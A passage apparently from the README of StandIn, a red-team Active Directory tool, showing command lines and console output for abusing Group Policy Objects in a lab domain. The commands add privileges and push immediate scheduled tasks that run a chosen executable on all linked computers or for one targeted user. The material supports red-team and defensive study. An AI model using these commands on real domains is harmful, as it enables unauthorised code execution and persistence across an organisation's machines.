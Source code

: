 ```

[+] User Object Found
    Object   : CN=user 002
    Path     : LDAP://CN=user 002,CN=Users,DC=redhook,DC=local
    SID      : S-1-5-21-315358687-3711474269-2098994107-1106

[?] GPO Version
    User     : 0
    Computer : 1

[+] Writing GPO changes
    |_ Updating existing GptTmpl.inf
       |_ Adding GPO Privileges
       |_ Updating revision
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Updating gPCMachineExtensionNames
```

### GPO add immediate task

> *With the appropriate permissions it is possible to add an immediate task to either the `User` or `Computer` component of the GPO. Optionally, these tasks can be narrowed to apply to a single user or single computer.*

#### Syntax

Add a generic `Computer` task which will execute for all linked computer objects tied to the `Shards` GPO. Also add a targeted `User` task that will only execute for a specific domain user. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] GPO Version
    User     : 0
    Computer : 2

[+] Writing GPO changes
    |_ Creating ScheduledTasks.xml
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Updating gPCMachineExtensionNames

C:\> StandIn.exe --gpo --filter Shards --tasktype user --taskname Ivonis --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args" --target "REDHOOK\user001" --targetsid S-1-5-21-315358687-3711474269-2098994107-1105

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
```